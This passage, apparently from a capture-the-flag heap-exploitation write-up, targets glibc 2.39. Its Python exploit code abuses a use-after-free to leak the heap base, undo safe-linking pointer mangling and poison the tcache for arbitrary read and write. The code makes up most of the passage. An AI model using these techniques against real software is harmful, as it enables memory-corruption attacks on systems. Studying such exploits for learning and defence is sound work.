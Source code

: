 ```python
def reveal(ptr):
    mask = 0xFFF << 36
    while mask:
        ptr ^= (ptr & mask) >> 12
        mask >>= 12
    return ptr

io = start()

create(0, b"a")
create(1, b"b")
create(2, b"c")
delete(0)
delete(1)

out = read(0)  # UAF
heap_leak = u64(out[:8])
heap_base = heap_leak << 12
log.info(f"{heap_base=:#x}")

chunks = reveal(u64(read(1)[:8]))  # recover chunk-0 address
log.info(f"{chunks=:#x}")
```

[^1]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L329>

## Tcache Poisoning

Now that we have obtained the heap address information, we could use this UAF
to poison the tcache bin metadata to control `malloc` return value, essentially
getting controlled chunk address allocation which in return give us abritrary
read and write primitives.

```python
def mangle(pos, ptr):
    return (pos >> 12) ^ ptr

io = start()

create(0, b"a")
create(1, b"b")
create(2, b"c")
delete(0)
delete(1)

out = read(0)  # UAF
heap_leak = u64(out[:8])
heap_base = heap_leak << 12
chunks = heap_base + 0x2a0

# tcache poisoning to control the next next chunk allocation to be at chunks+0x580
update(1, p64(mangle(chunks + 1 * 0x30, chunks + 0x580)))
create(3, b"e")
# chunk 4 will be allocated at chunks+0x580
create(4, b"controlled chunk allocation")
```


[^2]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4513>
[^3]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4678>
[^4]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4720>
[^5]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4538>
[^6]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4527>
[^9]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4041>
[^10]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L3914>
[^11]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L3977>
[^12]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4161>
[^99]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L1812>